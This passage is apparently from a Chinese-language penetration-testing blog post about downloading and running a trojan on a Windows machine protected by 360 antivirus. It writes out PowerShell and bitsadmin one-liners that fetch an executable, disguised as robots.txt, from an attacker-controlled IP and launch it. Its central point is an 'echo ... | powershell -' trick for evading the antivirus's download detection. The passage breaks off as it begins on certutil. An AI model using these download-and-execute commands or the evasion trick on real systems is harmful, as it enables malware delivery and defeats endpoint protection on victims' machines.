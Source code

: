 ![](https://mmbiz.qpic.cn/mmbiz_png/fZT30hrVgRfu0caWH4oME8ZFJy9M3kbLmnbcvsT9955jkgibMwiaEdj2GBY56FexRy3A8b9PialDtZrpibdVugS6mg/640?wx_fmt=png)

果然，有 360，这个时候就需要考虑两件事了

*   下载动作需要免杀
    
*   木马需要免杀
    

360 是出了名的疯， 起个 powershell，vbs 没干啥就会拦截

但是，作为一个怀旧（啥也不会）的人，我还是打算把之前的方法试一试

1.  powershell
    

```
powershell (new-object System.Net.WebClient).DownloadFile(' http://xx.xx.xx.xx/robots.txt','C:\Users\admin\a.exe');start-process 'C:\Users\admin\a.exe'
```

2.  bitsadmin
    

```
bitsadmin /transfer n http://xx.xx.xx.xx/robots.txt C:\Users\admin\a.exe && C:\Users\admin\a.exe
```

还有很多，具体参照下面这篇文章

https://xz.aliyun.com/t/1649#toc-5

但是无一意外的被 360 干掉，没招了，只能自力更生了

* * *

**接下来就是本文的重点了**

> powershell

正常的 powershell 下载文件确实会被干掉：

![](https://mmbiz.qpic.cn/mmbiz_png/fZT30hrVgRfu0caWH4oME8ZFJy9M3kbLZX0pNLgIqTetaoeJl9BqIwzRMWldL30u12qxufOy8Srzb7b1giatWsA/640?wx_fmt=png)

但是可以通过

```
echo (new-object System.Net.WebClient).DownloadFile('http://192.168.31.93:8000/tomcat.exe','C:/Users/test/cc.exe')| powershell -
```

来进行绕过：

![](https://mmbiz.qpic.cn/mmbiz_png/fZT30hrVgRfu0caWH4oME8ZFJy9M3kbLhMFX5yMfw7jUPqbKzQudSS12qMnax6G2nP0YN1XhceibH8U7P9hhBXw/640?wx_fmt=png)

但是要注意，如果目标目录为桌面或者 system32，360 仍然会产生提醒，但是文件仍然会下载下来，且可以正常执行：

![](https://mmbiz.qpic.cn/mmbiz_png/fZT30hrVgRfu0caWH4oME8ZFJy9M3kbLfesSZyyjxX3mCTAR1glBkx5f1AkMlsaOyAKxS2JjibK4nY1iaFUgOj2Q/640?wx_fmt=png)

> certutil

如果目标机器较老，很可能不存在 powershell，此时就需要使用一些老方法，即 certutil
